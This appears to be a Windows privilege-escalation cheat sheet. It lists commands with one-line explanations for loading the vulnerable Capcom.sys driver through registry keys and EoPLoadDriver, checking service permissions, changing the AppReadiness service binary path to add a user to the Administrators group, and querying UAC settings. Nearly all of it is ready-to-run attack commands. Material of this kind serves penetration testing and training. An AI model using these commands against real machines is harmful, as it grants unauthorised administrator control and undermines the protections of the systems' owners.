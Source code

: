 #### Add reference to a driver (1)
```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```
- Adds a registry key to specify the path to a driver, part of loading a vulnerable or malicious driver.

#### Add reference to a driver (2)
```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
- Adds a registry key to define the type of a driver, aiding in its configuration or exploitation.

#### Check if driver is loaded
```cmd
.\DriverView.exe /stext drivers.txt and cat drivers.txt | Select-String -pattern Capcom
```
- Uses `DriverView` to list loaded drivers, then filters the output for a specific pattern, here `Capcom`, to verify if a driver is loaded.

#### Using EopLoadDriver
```cmd
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```
- Loads a driver into the system for elevation of privilege exploits, using a utility designed for this purpose.

#### Checking service permissions with PsService
```cmd
c:\Tools\PsService.exe security AppReadiness
```
- Checks the security permissions of the `AppReadiness` service, identifying potential vulnerabilities.

#### Modifying a service binary path
```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```
- Changes the binary path of a service, here to add a user to the Administrators group when the service starts.

#### Confirming UAC is enabled
```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
- Queries the registry to check if User Account Control (UAC) is enabled, impacting exploitation strategies.

#### Checking UAC level
```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```
- Determines the configuration level of UAC prompts for administrators, affecting how elevation of privilege might be pursued.
